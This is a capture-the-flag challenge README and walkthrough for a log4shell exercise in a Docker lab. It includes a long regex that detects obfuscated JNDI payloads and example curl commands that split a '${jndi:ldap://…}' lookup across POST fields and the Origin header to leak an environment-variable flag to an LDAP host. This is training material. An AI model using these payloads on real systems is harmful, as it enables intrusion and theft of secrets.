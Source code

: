 # Chain4Fun
Network forensic combined with spicy log4j vulnerability exploitation
## Structure 
This challenge is made of two docker containers that shares a private network (same setup as [Salty challenge](https://github.com/oldboy21/Challenges-CTC/tree/master/CTC21/ctc-network-salty) of CTC2021). Please check out the initiate.sh script to understand all the steps taken in order to develop the virtual environment. In order to start the challenge the partecipant will have to SSH into the master container.  
## Walkthrough
The user is given non-privileged SSH access to the master machine, in the home folder of the ctc user the following script is found:
```
echo "Running test APIs"
curl -s -X POST -H 'Origin: 192.168.32.1' -d "train=sprinter&company=NS&price=1389&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -s -X POST -H 'Origin: 255.255.255.0' -d "train=intercitydirect&company=NS&price=8080&accepted=false" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -X POST -H 'Origin: 127.0.0.1' -d "train=tram&company=HTA&price=21&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
echo "Retrieving some logs for debugging"
sleep 1
wget http://10.0.0.8:8080/demo/stuff -O application.log
```
The script is executable but **not readable** by the ctc user: 
```
ctc@843b9398a6fd:~$ sudo -l
Matching Defaults entries for ctc on 843b9398a6fd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctc may run the following commands on 843b9398a6fd:
    (root) NOPASSWD: /usr/bin/bash /home/ctc/run-tests.sh
```
Once the script is executed, the user will find in the same folder the application.log file. The application.log file content after the first run would look like this: 
```
022-04-08 12:00:33.747  WARN 1 --- [localhost-startStop-1] o.s.b.StartupInfoLogger                  : InetAddress.getLocalHost().getHostName() took 10011 milliseconds to respond. Please verify your network configuration.
2022-04-08 12:00:23.720  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Starting DemoApplication v0.0.1-SNAPSHOT using Java 1.8.0_131 with PID 1 (/usr/local/tomcat/webapps/demo/WEB-INF/classes started by root in /usr/local/tomcat)
2022-04-08 12:00:43.771  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : No active profile set, falling back to 1 default profile: "default"
2022-04-08 12:00:44.804  INFO 1 --- [localhost-startStop-1] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 1003 ms
2022-04-08 12:00:45.670  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Started DemoApplication in 67.812 seconds (JVM running for 86.543)
2022-04-08 12:00:46.258  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2022-04-08 12:00:46.260  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
2022-04-08 12:00:46.374  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : true:192.168.32.1:1389sprinter
2022-04-08 12:00:46.375  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : Request elaborated
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : false:255.255.255.0:8080intercitydirect
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : Request elaborated
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : true:127.0.0.1:21tram
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : Request elaborated
2022-04-08 12:00:49.432  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : Showing environment variables for debugging
2022-04-08 12:00:49.437  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_ASC_URL
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : HOSTNAME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_VERSION
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CATALINA_HOME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : LD_LIBRARY_PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : GPG_KEYS
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PWD
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CTCFLAG
[...]
```
An updated application.log file is retrieved each time the script showed above is ran.  At this point the partecipant should realize we are talking about the infamous [log4shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832) vulnerability and that one of the environment variables of the docker container is called **CTCFLAG**. The tool tcpdump has been granted of raw packet captures and network interface manipulation capabilities hence it can be ran without the need of root permissions. In order to understand what's really happening the partecipant must run tcpdump on the *c_x_eth0* interface and then run again the run-tests.sh script obtaining a network capture file that would look like this: 

![Network capture](images/wireshark_tcpdump.png)

Comparing the application.log file content and the HTTP requests sent to the target container the partecipant can figure out the way the input is logged by the backend. The different parameters part of the HTTP POST body are concatenated in one string and then *logger.info(body)-ed*. Therefore the application is vulnerable to log4j payload but the payload must be splitted properly among the different parameters included in the body of the HTTP request (also keep in mind some chars of the classic log4shell payload must be omitted since already included in the log structure). Moreover a filter is implemented in order to block payloads that are not chained as supposed by the challenge structure (For instance, without filtering applied a normal payload would work in the Origin HTTP header). 

![Exploitation attempts and payloads](images/exploit_filtering_payload.png)

In order to filter the payload the following regex is implemented: 

```
(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))
```
Example of successful exploitation:

```
curl -X POST -H 'Origin: ldap://10.0.0.7' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
```
```
curl -X POST -H 'Origin: ldap://10.0.0.7:1389/a}' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
``` 

![Flag](images/flag.png)

Partecipants do not need to obtain a shell access to the target machine, as showed in the picture the environment variable containing the flag can be part of the LDAP redirect object. Nonetheless, if they enumerate the JAVA version and compile the right Java exploit they would be able to access to the target machine. 


